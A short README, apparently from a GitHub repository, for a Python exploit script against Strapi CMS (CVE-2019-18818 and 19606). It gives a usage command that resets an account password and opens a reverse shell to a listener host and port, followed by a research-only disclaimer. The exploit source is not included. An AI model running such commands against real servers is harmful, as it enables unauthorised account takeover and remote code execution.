 # Strapi CMS CVE-2019-18818 and 19606 

Blind Remote Code Execution of Strapi CMS Version 3.0.0-beta.17.7 and earlier to get reverse shell

## Getting Started

### Executing program

* Using python3
```
python3 strapi_exp.py -t http://strapi.hack/ -e fake@email.com -p new_password -lhost 127.0.0.1 -lport 9001
```

## Help

Help prompt
```
python3 strapi_exp.py -h
```

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.